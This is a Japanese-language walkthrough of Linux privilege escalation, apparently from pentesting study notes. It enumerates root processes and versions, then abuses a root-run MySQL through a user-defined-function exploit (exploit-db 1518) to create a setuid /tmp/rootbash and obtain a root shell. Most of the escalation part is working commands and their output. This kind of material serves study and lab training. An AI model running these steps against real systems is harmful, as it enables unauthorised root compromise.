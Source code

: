 # ルートで動作しているサービス
以下のコマンドを実行すると、rootとして動作しているすべてのプロセスが表示されます。   
```
$ ps aux | grep "^root"
```
どのような結果であっても、実行されているプログラムのバージョン番号を特定するようにしてください。   
# プログラムバージョンの列挙
コマンドラインオプション --version/-v を付けてプログラムを実行すると、多くの場合、バージョン番号が表示されます。    
```
$ <program> --version
$ <program> -v
```
Debianのようなディストリビューションでは、dpkgはインストールされたプログラムとそのバージョンを表示することができます。   
```
$ dpkg -l | grep <program>
```
rpmを使用するシステムでは、以下のように実現します   
```
$ rpm –qa | grep <program>
```
# Privilege Escalation
1. rootとして動作しているプロセスを列挙します。   
```
$ ps aux | grep "^root”
...
root 6933 0.0 4.9 165472 24376 pts/0 Sl 02:13 0:02 /usr
/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --user=root ...
```
mysqldプロセスはrootで実行されていることに注意してください。   
2. mysqldのバージョンを列挙する。  
```
$ mysqld --version
mysqld Ver 5.1.73-1+deb6u1 for debian-linux-gnu on x86_64 ((Debian))
```
3. MySQLには、共有オブジェクトを介して実行されるユーザー定義関数（UDF）をインストールする機能があります。   
4. このエクスプロイトの説明に従って、システムコマンドを実行するUDFをコンパイルしてインストールします。   
https://www.exploit-db.com/exploits/1518   
注：一部のコマンドは若干の修正を必要とする場合があります。
5. UDFがインストールされたら、MySQLシェルで以下のコマンドを実行します。
```
mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');
```
6. 通常のシェルに戻り、/tmp/rootbashを実行してrootシェルにします。
```
$ /tmp/rootbash -p
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```
